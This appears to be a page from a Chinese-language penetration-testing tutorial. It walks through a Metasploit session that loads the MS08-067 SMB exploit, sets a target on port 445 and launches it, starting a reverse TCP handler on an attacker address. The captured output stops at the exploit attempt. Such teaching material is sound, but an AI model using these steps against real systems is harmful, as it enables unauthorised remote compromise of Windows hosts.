 ```
root@senatorbedfellow:∼# msfconsole

     ,           ,
    /             \
   ((__---,,,---__))
      (_) O O (_)_________
         \ _ /            |\
          o_o \   M S F   | \
               \   _____  |  *
                |||   WW|||
                |||     |||

Payload caught by AV? Fly under the radar with Dynamic Payloads in
Metasploit Pro -- learn more on http://rapid7.com/metasploit

       =[ metasploit v4.11.15-dev                         ]
+ -- --=[ 1524 exploits - 887 auxiliary - 260 post        ]
+ -- --=[ 436 payloads - 38 encoders - 8 nops             ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

msf > search ms08

```

Metasploit 将模块存储在具有特定结构的目录树中。有一个 Postgresql 数据库支持 Metasploit 来存储有关主机、漏洞和其他资产的信息。Metasploit 还将保存所有模块的索引，以便更快地找到它们。一旦我们知道模块在哪里，我们就需要加载它。我们通过告诉 Metasploit 使用该模块来做到这一点。您可以在下面的代码中看到整个事务，您可以看到我们选择了模块的完整路径，因为它存在于 Metasploit 包含的目录树中。一旦我们表明我们将使用`exploit/windows/smb/ ms08_067_netapi`模块，我们需要设置一些选项以便我们可以使用它。不同的模块可能有不同的选项集。这个特定模块的选项非常有限。我们需要设置远程主机和远程端口。远程端口将是 445，因为这是通用 Internet 文件系统(CIFS)监听的端口。远程主机将成为我们的目标。您可能会注意到该模块有一个熟悉的名称。它以 Microsoft 公告命名，因为它利用了该公告中说明的漏洞。

```
msf > use exploit/windows/smb/ms08_067_netapi

msf exploit(ms08_067_netapi) > set RHOST 172.30.42.18
RHOST => 172.30.42.18

msf exploit(ms08_067_netapi) > show options

Module options (exploit/windows/smb/ms08_067_netapi):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOST    172.30.42.18     yes       The target address
   RPORT    445              yes       Set the SMB service port
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)

Exploit target:

   Id  Name
   --  ----
   0   Automatic Targeting

msf exploit(ms08_067_netapi) > exploit

[*] Started reverse TCP handler on 172.30.42.20:4444

[*] Automatically detecting the target...

[*] Fingerprint: Windows XP - Service Pack 2 - lang:English

[*] Selected Target: Windows XP SP2 English (AlwaysOn NX)

[*] Attempting to trigger the vulnerability...

```